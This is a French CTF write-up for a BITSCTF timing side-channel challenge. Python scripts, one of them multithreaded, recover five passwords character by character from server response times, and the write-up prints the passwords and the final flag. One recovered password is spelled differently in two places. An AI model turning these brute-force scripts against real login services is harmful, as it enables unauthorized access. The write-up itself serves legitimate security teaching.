

### Énoncé

> **MogamBro's Certainty Principle**
> MogamBro's Certainty Principle states that the more accurate you are the more delay you'll face. Δt • Δp ≥ frustration / ram_space; where p is precission and t is time.

```bash
nc 20.244.33.146 4445
```


### Résolution

Connectons nous au serveur avec netcat dans un terminal.



On peut remarquer un temps de réponse est donné pour chaque requête. On peut aussi remarquer que parfois il est un peu plus long de 0.1 seconde. On déduit ensuite que le temps de réponse est calculé en fonction de la précision du premier caractère du mot de passe, puis s'il est bon du suivant etc.

#### Niveau 1

Faisons alors un script qui va tester chaque caractère possible, trouver le bon et faire de même avec le suivant jusqu'à trouver le bon mot de passe.

```python
import socket
import re
from time import sleep

def test(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.sendall((password + '\n').encode())
    s.recv(1024) # 'Enter password: \n'
    result = s.recv(1024) # 'Incorrect password\nTime taken:  0.40008874246294085\n'
    s.recv(1024) # ''
    s.close()
    return float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''

while True:
    for l in 'AZERTYUIOPQSDFGHJKLMWXCVBNazertyuiopqsdfghjklmwxcvbn1234567890 ':
        time = test(password + l)
        if time > 0.1 * (len(password) + 1):
            password += l
            break
    print(password)
```

On obtient alors le mot de passe : `SLOPPYTOPPYWITHATWIST`.


#### Niveau 2

Sauf qu'il nous indique désormais : *Congratulations! You have unlocked the door to level 2!*. Et redemande un autre mot de passe.

On peut alors réutiliser le même script pour trouver le mot de passe du niveau 2.

```python
import socket
import re
from time import sleep, time

def test(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.recv(1024) # 'Enter password: \n'
    s.sendall('SLOPPYTOPPYWITHATWIST\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 2!\nEnter password: \n'
    s.sendall((password + '\n').encode())
    result = s.recv(1024) # 'Incorrect password\nTime taken:  5.854395091588001e-05\n'
    s.close()
    return float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''

while True:
    for l in 'AZERTYUIOPQSDFGHJKLMWXCVBNazertyuiopqsdfghjklmwxcvbn1234567890 ':
        time = test(password + l)
        if time > 0.05 * (len(password) + 1):
            password += l
            break
    print(password)
```

On obtient alors le mot de passe : `GINGERDANGERHERMOINEGRANGER`.


#### Niveau 3

On atteint alors le niveau 3, et on peut réutiliser le même script pour trouver le mot de passe du niveau 3.
Petite optimisation en ordonnant les lettres par fréquence d'apparition.

```python
import socket
import re
from time import sleep

def test(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.recv(1024) # 'Enter password: \n'
    s.sendall('SLOPPYTOPPYWITHATWIST\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 2!\nEnter password: \n'
    s.sendall('GINGERDANGERHERMOINEGRANGER\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall((password + '\n').encode())
    result = s.recv(1024) # 'Incorrect password\nTime taken:  5.854395091588001e-05\n'
    s.close()
    return float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''

while True:
    for l in 'ETAOINSHRDLCUMWFGYPBVKJXQZetaoinshrdlcumwfgypbvkjxqz1234567890 _-{}':
        time = test(password + l)
        print(l + ' (' + str(time) + ')')
        if time > 0.01 * (len(password) + 1):
            password += l
            break
    print(password)
```

On obtient alors le troisième mot de passe : `HICKERYDICKERYDOCKSKIBIDIDOBDOBPOP`.


#### Niveau 4

```python
import socket
import re
from time import sleep

def test(password):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.recv(1024) # 'Enter password: \n'
    s.sendall('SLOPPYTOPPYWITHATWIST\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 2!\nEnter password: \n'
    s.sendall('GINGERDANGERHERMOINEGRANGER\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall(('HICKERYDICKERYDOCKSKIBIDIDOBDOBPOP\n').encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall((password + '\n').encode())
    result = s.recv(1024) # 'Incorrect password\nTime taken:  5.854395091588001e-05\n'
    s.close()
    return float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''

while True:
    for l in 'ETAOINSHRDLCUMWFGYPBVKJXQZetaoinshrdlcumwfgypbvkjxqz1234567890 _-{}':
        time = test(password + l)
        print(l + ' (' + str(time) + ')')
        if time > 0.005 * (len(password) + 1):
            password += l
            break
    print(password)
```

On obtient alors le quatrième mot de passe : `SNICKERSNORTSUPERSECURESHORTSHAKINGSAFARISADISTIL`.

#### Niveau 5

Bon là ça devient vraiment très long puisque ça remet tous les anciens mots de passe avant. Du coup on va optimiser un peu le truc avec du multithreading : parfois il se trompe, mais c'est 10 fois plus rapide.

```python
import socket
import re
from time import sleep
import threading

def test(password, results):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('20.244.33.146', 4445))
    sleep(0.1)
    s.recv(1024) # 'Enter password: \n'
    s.sendall('SLOPPYTOPPYWITHATWIST\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 2!\nEnter password: \n'
    s.sendall('GINGERDANGERHERMOINEGRANGER\n'.encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall(('HICKERYDICKERYDOCKSKIBIDIDOBDOBPOP\n').encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 3!\nEnter password: \n'
    s.sendall(('SNICKERSNORTSUPERSECURESHORTSHAKINGSAFARISADISTIC\n').encode())
    s.recv(1024) # 'Congratulations! You have unlocked the door to level 4!\nEnter password: \n'
    s.sendall((password + '\n').encode())
    result = s.recv(1024) # 'Incorrect password\nTime taken:  5.854395091588001e-05\n'
    s.close()
    results[password] = float(re.search('[0-9][0-9.e\\-]+', result.decode())[0])
    
password = ''
while True:
    threads = []
    results = {}
    for l in 'ETAOINSHRDLCU':
        thread = threading.Thread(target=test, args=(password + l, results))
        threads.append(thread)
        thread.start()
    for thread in threads:
        thread.join()
    for test_password, time in results.items():
        print(test_password + ' (' + str(time) + ')')
        if time > 0.003 * len(test_password):
            password = test_password
            break
    sleep(0.2)
    threads = []
    results = {}
    for l in 'MWFGYPBVKJXQZ':
        thread = threading.Thread(target=test, args=(password + l, results))
        threads.append(thread)
        thread.start()
    for thread in threads:
        thread.join()
    for test_password, time in results.items():
        print(test_password + ' (' + str(time) + ')')
        if time > 0.003 * len(test_password):
            password = test_password
            break
    sleep(0.2)
    print(password)
```

On obtient alors le cinquième mot de passe : `BOOMPOPWHIZZLESKIZZLERAPTRAPMEOWBARKHOWLBUZZDRUMBURPFARTPOOP`.

Et c'est enfin enfin le flag : **BITSCTF{c0n6r47ul4710n5_0n_7h3_5ucc355ful_3n7ry}**
